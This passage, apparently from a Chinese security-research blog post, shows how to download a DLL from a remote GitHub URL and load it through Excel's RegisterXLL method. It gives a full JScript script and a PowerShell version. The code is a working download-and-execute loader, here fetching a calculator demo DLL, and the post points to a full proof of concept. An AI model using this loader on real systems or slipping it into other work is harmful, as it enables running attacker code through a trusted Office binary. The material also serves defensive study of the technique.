 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-20/2-2.png)


为保证js和rundll32利用代码格式对应，原js代码作相应优化，最终代码为：

```
FileSys = WScript.CreateObject("Scripting.FileSystemObject");   
if (FileSys.FolderExists("c:\\Program Files\\Microsoft Office"))   
{   
	WScript.Echo("[+] Find Microsoft Office."); 
	WScript.Echo("[+] Download file...");
	h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
	h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",false);
	h.Send();
	s=new ActiveXObject("ADODB.Stream");
	s.Type=1;
	s.Open();
	s.Write(h.ResponseBody);
	x=new ActiveXObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll";
	s.SaveToFile(x,2);

	WScript.Echo("[+] Download Success.");
	WScript.Echo("[+] Load dll...");	 
	e= new ActiveXObject("Excel.Application");
	e.RegisterXLL(x);
	WScript.Echo("[+] Load dll Success.");	  
}
else
{
	WScript.Echo("[!] I can't find Microsoft Office!");  	   
}
```

**注：**

相关代码已上传至Github，完整POC可参照：

https://github.com/3gstudent/ExcelDllLoader

## 0x04 扩展用法
---

### 1、通过powershell实现

```
$path=$env:APPDATA+"\Microsoft\Windows\Recent\calc.dll"
$client = new-object System.Net.WebClient
$client.DownloadFile('https://raw.githubusercontent.com/3gstudent/test/master/calc.dll', $path)
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
$excel.RegisterXLL($path)
```

**注：**
